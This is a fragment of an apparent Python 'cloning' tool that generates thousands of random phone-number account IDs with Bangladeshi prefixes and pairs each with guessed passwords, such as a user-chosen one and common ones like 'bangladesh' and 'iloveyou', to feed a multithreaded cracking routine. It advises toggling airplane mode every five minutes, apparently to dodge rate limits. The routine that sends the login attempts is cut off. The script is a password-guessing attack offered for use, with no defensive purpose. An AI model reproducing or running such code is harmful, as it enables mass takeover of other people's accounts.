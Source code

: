     
    
# APK CHECK
def SHORIF():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m Example : \033[38;5;45m019,\033[38;5;46m017,\033[38;5;45m018,\033[38;5;192m016{x}')
    print(' \033[38;5;46m×××××××××××××××××××××××××××××××××××××××××××××××××')
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    code = random.choice([rk1,rk2,rk3])                      
    pww = input(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;45m Choose : \033[38;5;46m')
    print("")
    os.system('clear')
    print(logo)
    print(" \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m Example : \033[38;5;45mfreefire, \033[38;5;48mbangladesh , \033[38;5;46mi love you, \033[1;95mEnc ")
    print(' \033[38;5;46m×××××××××××××××××××××××××××××××××××××××××××××××××')
    po = input(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m CHOOSE YOUR PASSWORD :{H} \033[38;5;46m')
    pok = po.lower()
    print("")
    os.system('clear')
    print(logo)
    limit = int(input(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m EXAMPLE : \033[38;5;45m2000, \033[38;5;46m3000, \033[38;5;45m5000 \n \033[38;5;46m××××××××××××××××××××××××××××××××××××××××××××××××× \n \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;45m PUT CLONING LIMIT:\033[38;5;46m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with ThreadPool(max_workers=50) as setu:
        clear()
        tl = str(len(user))
        jalan(' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m SIM CODE  \033[38;5;196m: \033[38;5;46m'+code)
        print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m TOTAL IDS: {xr}\033[38;5;46m'+tl)
        print(f'{x} \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m THE PROCESS HAS BEEN STARTED')
        print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m WORK CUNTRY \033[1;97m: \033[38;5;45mBANGLADESH')
        print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m TOOL OWNER \033[1;97m: \033[38;5;45mASRAFUL ISLAM SHORIF')
        print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;195m USE NETWORK  \033[1;97m:  \033[38;5;45m2G, 3G, 4G, 5G ')
        print(f' \033[38;5;196m[\033[38;5;45m•\033[38;5;196m]\033[38;5;126m USE AEROPLANE MOOD IN EVERY 5 MIN ')
        print(' \033[38;5;46m×××××××××××××××××××××××××××××××××××××××××××××××××')
        for love in user:
            pwx = [(code+love), (pok), (love), ("bangladesh","freefire","iloveyou","freefirelover","pubglovar")]
            uid = code+love
            setu.submit(rcrack,uid,pwx,tl)
    print(f"\n{x}  \033[38;5;46m×××××××××××××××××××××××××××××××××××××××××××××××××")
def rcrack(uid,pwx,tl):
    #print(user)